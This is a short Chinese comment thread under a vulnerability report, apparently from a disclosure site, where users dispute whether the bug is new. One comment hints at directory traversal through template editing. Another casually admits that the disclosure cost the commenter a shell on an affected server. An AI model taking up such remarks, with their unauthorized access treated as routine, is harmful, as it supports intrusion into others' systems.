对本漏洞信息进行评价，以更好的反馈信息的价值，包括信息客观性，内容是否完整以及是否具备学习价值
貌似之前就有这漏洞吧
利用方法不同，你可以对照一下
@lucifer 你谁啊，没事瞎报什么漏洞啊？就显你能是不是？
都别关注这破洞了，模板编辑那点点杠能遍历整个盘符
貌似早就有了吧
@xsser
@horseluke 貌似不一样吧 而且的确在官方测试成功得
@漏洞不是用来公开的 你能好好说话？自己去试试再来说好么？能遍历个毛啊，几百年前就修复了。真服了。什么人
@leehenwu 大哥们，真心拜托你们按照以前的方法测试下，然后再来评论ok？
phpMyAdmin------------1 这目录还在不。。。你这一爆害我的shell也掉了。。。。。
好文章，好思路！
登录后才能发表评论，请先 登录 。